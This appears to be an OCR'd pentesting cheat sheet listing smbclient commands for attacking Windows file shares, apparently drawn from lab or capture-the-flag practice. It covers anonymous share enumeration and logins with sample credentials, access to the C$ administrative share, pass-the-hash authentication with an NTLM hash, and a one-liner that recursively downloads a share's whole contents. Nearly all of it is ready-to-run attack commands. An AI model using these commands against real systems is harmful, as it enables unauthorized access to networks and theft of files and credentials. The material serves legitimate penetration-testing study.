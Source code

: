 ```
smbclient -N -L \\\\[IP]\\


	
# access shares
smbclient //[IP]/Public -N

smbclient \\\\[IP]\\sharename -U [USERNAME]







# With Credentials

# login to the share
smbclient \\\\[IP]\\SHARE -N -I [IP]
smbclient \\\\[IP]\\C$
smbclient \\\\[IP]\\CustomShare
smbclient -p 4455 -L //[IP]/ -U hr_admin --password=Welcome1234


# Try in user share (with password)
smbclient //[IP]/jane -U jane
smbclient //[IP]/admin -U admin
smbclient //server/share -U domain/username






smbclient -U [USERNAME]%[PASSWORD] //[IP]/Users
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //[IP]/Users

smbclient -p 4455 //[IP]/scripts -U hr_admin --password=Welcome1234




# Pass the Hash
smbclient \\\\[TARGET IP]\\[SHARE] -U Administrator --pw-nt-hash [NTLM HASH]

smbclient \\\\[IP]\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b






# download the share's contents recursively so we can dig through it on our testing box
smbclient //[IP]/[SHARE NAME] -N -c 'prompt OFF;recurse ON;lcd '[DESTINATION PATH]';mget *'

```
